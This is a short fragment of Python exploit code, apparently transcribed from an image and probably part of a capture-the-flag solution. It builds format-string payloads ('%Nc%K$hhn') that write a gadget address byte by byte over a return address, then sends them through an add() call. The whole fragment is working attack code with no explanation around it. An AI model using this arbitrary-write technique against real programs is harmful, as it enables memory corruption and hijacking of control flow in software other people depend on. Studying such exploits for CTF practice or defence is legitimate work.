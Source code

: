 ```python

mod_ins = ret-0x120

for i in xrange(6):
    size = (gadget>>(8*i)) & 0xff
    size -= 27
    if(size > (written_size & 0xff)):
        payload += '%{0}c%{1}$hhn'.format(size-(written_size&0xff),offset+i)
        written_size += size - (written_size & 0xff)
    else:
        payload += '%{0}c%{1}$hhn'.format((0x100-(written_size&0xff))+size,offset+i)
        written_size += (0x100 - (written_size&0xff)) + size

payload=payload.ljust(0x80-13,'a')
for i in xrange(6):
    payload += p64(ret+i)

log.info(payload)
#pause()
add(payload)

payload = '%{0}c%{1}$hhn'.format(0xc1-27,offset)
payload=payload.ljust(0x80-13,'a')
payload += p64(mod_ins)
add(payload)

irt()

```

